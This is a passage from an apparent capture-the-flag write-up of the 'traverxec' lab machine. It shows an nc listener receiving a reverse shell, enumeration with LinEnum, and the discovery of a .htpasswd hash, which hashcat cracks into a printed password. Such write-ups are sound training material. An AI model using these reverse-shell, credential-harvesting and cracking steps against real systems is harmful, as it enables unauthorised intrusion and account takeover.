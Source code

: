 
That command just hangs, but on a fresh `nc` listener:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.165.
    Ncat: Connection from 10.10.10.165:53000.
    bash: cannot set terminal process group (458): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@traverxec:/usr/bin$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

## Priv: www-data –> david

### Find SSH Key

After some cursory looks around, I decided to upload and run
[LinEnum](https://github.com/rebootuser/LinEnum). One of the things that it
pointed out was a `.htpasswd` file:

    
    
    [-] htpasswd found - could contain passwords:
    /var/nostromo/conf/.htpasswd
    david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/  
    

I pulled that back and started cracking it with `hashcat`:

    
    
    root@kali# time hashcat -m 500 htpasswd /usr/share/wordlists/rockyou.txt --username --force
    ...[snip]...
    $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me    
    ...[snip]...
    

While in the `/var/nostromo/conf` directory, I started taking a look at the
configuration file, `nhttpd.conf`:

    
    
    www-data@traverxec:/var/nostromo/conf$ ls -a 
    .  ..  .htpasswd  mimes  nhttpd.conf
    
    www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf 
    # MAIN [MANDATORY]
    
    servername              traverxec.htb
    serverlisten            *
    serveradmin             david@traverxec.htb
    serverroot              /var/nostromo
    servermimes             conf/mimes
    docroot                 /var/nostromo/htdocs
    docindex                index.html
    
